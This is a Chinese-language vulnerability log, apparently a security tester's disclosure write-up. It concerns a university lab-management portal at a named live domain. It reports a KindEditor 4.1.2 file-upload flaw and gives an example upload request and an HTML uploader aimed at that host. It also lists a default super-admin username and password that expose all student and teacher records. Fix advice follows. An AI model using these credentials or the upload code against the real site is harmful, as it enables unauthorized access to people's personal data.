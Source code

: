 ```yaml
---
title: 漏洞发现日志
date: 2024-10-30T13:36:07Z
lastmod: 2024-10-30T13:36:17Z
---
```


# 漏洞发现日志

### 漏洞发现日志

---

**日期**: 2023年10月1日
**时间**: 14:30
**记录者**: 薛谔
**目标网站**: 实验室综合管理与服务平台-登录界面

https://mdsysgl.mdit.edu.cn/sysgl/

---

#### 1. 漏洞发现概述

* **漏洞类型**:

  * KindEditor 文件上传漏洞
  * 默认管理员账户漏洞
* **漏洞影响**:

  * KindEditor漏洞允许上传指定类型的文件，可能导致远程代码执行和数据泄露。
  * 默认管理员账户漏洞允许攻击者使用默认凭据登录，可能导致未授权访问和数据泄露。
* **漏洞严重性**: 高（CVSS评分待定）

---

#### 2. 漏洞发现过程

* **测试环境**: 使用浏览器进行手动测试。
* **发现方法**:

  * 通过访问 KindEditor 的文件上传功能进行测试。
  * 直接访问登录页面并尝试使用默认凭据进行登录。

---

#### 3. 漏洞详细信息

##### 3.1 KindEditor 文件上传漏洞

* **测试步骤**:

  * **14:35**: 访问登录页面 [实验室综合管理与服务平台-登录界面](https://mdsysgl.mdit.edu.cn/sysgl/)。
  * **14:36**: 登录成功后，访问文件上传功能测试地址 [KindEditor 示例](https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/jsp/demo.jsp)。
  * **14:37**: 尝试上传指定类型的文件（如 `.doc`​, `.docx`​, `.xls`​, `.xlsx`​, `.ppt`​, `.htm`​, `.html`​, `.txt`​, `.zip`​, `.rar`​, `.gz`​, `.bz`​）。
  * **14:38**: 观察到系统未能正确验证文件内容，成功上传包含恶意代码的文件。
* **漏洞地址**: [https://mdsysgl.mdit.edu.cn/sysgl/index/login_toIndex](https://mdsysgl.mdit.edu.cn/sysgl/index/login_toIndex)
* **允许上传的文件类型**:

  * doc
  * docx
  * xls
  * xlsx
  * ppt
  * htm
  * html
  * txt
  * zip
  * rar
  * gz
  * bz
* **示例请求**:

  ```http
  POST /sysgl/static/plugins/kindeditor-4.1.2/jsp/upload_json.jsp?dir=file HTTP/1.1
  Host: mdsysgl.mdit.edu.cn
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

  ------WebKitFormBoundary
  Content-Disposition: form-data; name="imgFile"; filename="malicious.doc"
  Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.document

  [恶意代码内容]
  ------WebKitFormBoundary--
  ```

##### 3.2 默认管理员账户漏洞

* **测试步骤**:

  * **14:40**: 访问登录页面 [实验室综合管理与服务平台-登录界面](https://mdsysgl.mdit.edu.cn/sysgl/)。
  * **14:41**: 输入默认管理员账户和密码：

    * **账号**: `000000`​
    * **密码**: `Admin@123`​
  * **14:42**: 成功登录，发现该账户为超级管理员，能够查看所有学生和老师的信息，并修改成员密码。
* **漏洞地址**: [https://mdsysgl.mdit.edu.cn/sysgl/](https://mdsysgl.mdit.edu.cn/sysgl/)
* **影响范围**: 所有用户信息，包括学生和老师的个人信息。

---

#### 4. 影响评估

* **受影响的用户**: 所有注册用户和系统管理员。
* **潜在损失**: 数据泄露、未授权访问和可能的法律责任。

---

#### 5. 修复建议

* **短期修复**:

  * 对于KindEditor漏洞，立即对文件上传功能进行安全性检查，限制可上传文件类型，并对文件内容进行验证。
  * 对于默认管理员账户漏洞，立即禁用默认管理员账户，并强制要求所有用户更改密码。
* **长期修复**:

  * 实施文件上传的严格验证和过滤机制，确保只允许安全的文件类型，并对文件内容进行扫描。
  * 实施强密码策略，确保所有账户使用唯一且复杂的密码。
* **安全最佳实践**: 定期进行安全审计，检查默认凭据的使用情况，并及时更新系统。

---

### 上传代码示例

以下是用于上传文件的 HTML 和 JavaScript 代码示例：

```html
html<html>
<head>
    <title>Uploader</title>
    <script src="https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/kindeditor.js"></script>
    <script>
        KindEditor.ready(function (K) {
            var uploadbutton = K.uploadbutton({
                button: K('#uploadButton')[0],
                fieldName: 'imgFile',
                url: 'https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/jsp/upload_json.jsp?dir=file',
                afterUpload: function (data) {
                    if (data.error === 0) {
                        var url = K.formatUrl(data.url, 'absolute');
                        K('#url').val(url);
                    }
                },
            });

            uploadbutton.fileBox.change(function (e) {
                uploadbutton.submit();
            });
        });
    </script>
</head>
<body>
<div class="upload">
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly"/>
    <input type="button" id="uploadButton" value="Upload"/>
</div>
</body>
</html>
```
